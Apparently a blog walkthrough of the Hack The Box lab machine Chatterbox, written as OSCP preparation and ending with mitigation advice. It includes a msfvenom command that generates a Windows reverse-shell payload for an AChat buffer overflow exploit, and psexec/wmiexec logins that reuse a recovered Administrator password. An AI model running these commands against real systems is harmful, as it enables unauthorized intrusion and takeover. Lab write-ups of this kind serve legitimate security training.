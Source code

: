 ```yaml
---
title: Chatterbox
date: 2025-04-23
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB, BOF, weak-creds-privesc] 
image: chatterbox.png
media_subpath: /assets/img/posts/2025-04-23-chatterboxHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Medium Windows box Chatterbox. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check first 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```
![image.png](nmap.png)

## Services

### Port 139/445

**Windows 7 Professional** 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

```bash
smbclient -L //$IP/ -N
```

![image.png](image%202.png)

```bash
enum4linux $IP
```

**No result**

### Port 9256

**AChat chat system**

I don’t honestly know how to enumerate and how to do foot printing for this service that’s why I am gonna search for it. I found this exploit:

[Github](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/36025&ved=2ahUKEwjWx_-qgu6MAxXHxAIHHfFnKuMQFnoECCgQAQ&usg=AOvVaw2T57YwIcTiH4gJzYVC2l8o)

[https://github.com/mpgn/AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

## Web

### Port 9255

AChat chat system httpd

**I couldn’t access the website.**

## Exploitation

[Github](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/36025&ved=2ahUKEwjWx_-qgu6MAxXHxAIHHfFnKuMQFnoECCgQAQ&usg=AOvVaw2T57YwIcTiH4gJzYVC2l8o)

[https://github.com/mpgn/AChat-Reverse-TCP-Exploit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit)

![image.png](image%203.png)

I made a shellcode from bash script:

```bash
bash AChat_Payload.sh
```

I entered required values:

![image.png](image%204.png)

After that I changed shellcode in python exploit and changed server address to my target box address, then I run the exploit:

```bash
python AChat_Exploit.py
```

I got a connection back:

![image.png](image%205.png)

I was just losing my shell, so I decided to look at the bash script internals, I saw it is using meterpreter shell, so let’s change it to general shell.

```bash
cp AChat_Payload.sh [payload.sh](http://payload.sh/)
```

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=$LHOST LPORT=$LPORT exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

```

![image.png](image%206.png)

And I got a connection:

![image.png](image%207.png)

## Privilege Escalation

- **OSCP Checklist**
    
    https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/
    
    - [ ]  Situational Awareness 
    - [ ]  SeImpersonatePrivilege 
    - [ ]  SeBackupPrivilege 
    - [ ]  SeDebugPrivilege
    - [ ]  SeRestorePrivilege
    - [ ]  SeTakeOwnershipPrivilege 
    - [ ]  SeManageVolumePrivilege
    - [ ]  SeMachineAccountPrivilege
    - [ ]  [Full Privileges](https://itm4n.github.io/localservice-privileges/?source=post_page-----b95d3146cfe9---------------------------------------)
    - [ ]  [FullPowers](https://github.com/itm4n/FullPowers)
    - [ ]  PowerShell History(Transcription, Script Logging)
    - [ ]  Sensitive Files
    - [ ]  Insecure Service Executables
    - [ ]  binpath 
    - [ ]  DLL hijacking
    - [ ]  Unquoted Service Path
    - [ ]  Scheduled Tasks
    - [ ]  Application-based exploits
    - [ ]  [Detailed Paper about other privileges](https://github.com/hatRiot/token-priv)
    - [ ]  Kernel Exploits
    - [ ]  When you're on a Windows box make sure to check the root directory of the local drive volume, each user directory as well as their Desktop and Documents folders, the Program Files folder (usually the x86 one), as well as their PowerShell history if you want to be extra thorough. Do these before using something like winPEAS to save time if you end up finding a config file or script with credentials in it.
    
    ---
    
    [Privileged File Write EOP](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)
    

**I have done first some manual enumeration:**

![image.png](image%208.png)

**I run winPEASany.exe:**

![alfred](image%209.png)

alfred

![It is run with alfred user](image%2010.png)

It is run in the context of alfred user

![image.png](image%2011.png)

As I have found one password I am gonna try it for the Administrator user:

```bash
sudo nxc smb $IP -u Administrator -d . -p Welcome1!
```

![image.png](image%2012.png)

And it works !

Use [psexec.py](http://psexec.py)  to authenticate:

```bash
psexec.py Administrator:'Welcome1!'@10.10.10.74
```

![image.png](image%2013.png)



> Note: When running winPEAS I have noticed that Alfred had `AllAccess` on Administrator folders, that’s also a sign that Alfred is administrator he is just using two accounts on the machine.
{: .prompt-warning }


Ridiculously I cannot read `root.txt` as NT Authority\System.



> The `root.txt` file could have its **NTFS permissions explicitly denying access to SYSTEM** or only allowing access to `Administrator`. This is a deliberate CTF trick to make you escalate *context*, not just privilege.
{: .prompt-info }


I am gonna try to login as Administrator explicitly using not psexec but wmiexec as psexec automatically escalates privileges to nt authority\system.

```bash
wmiexec.py Administrator:'Welcome1!'@10.10.10.74
```

![image.png](image%2014.png)

Now we can read `root.txt`:

![image.png](image%2015.png)

## Mitigation

- **Patch Vulnerable Software**: The Achat application contains a known buffer overflow vulnerability. It should be removed or updated to a secure version. Legacy or unmaintained software should never be exposed to untrusted networks.
- **Disable Autologon**: Storing plaintext credentials in the registry (under `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`) poses a serious risk. Autologon should be disabled, and sensitive credentials should never be stored in plaintext.
- **Least Privilege Enforcement**: The user `Alfred` had administrative rights, which allowed privilege escalation. Follow the principle of least privilege by only assigning administrative rights when strictly necessary.
- **Use of Credential Guard and LSA Protection**: Enable Credential Guard and LSA Protection on Windows systems to reduce the risk of credential theft via tools like Mimikatz or winPEAS.
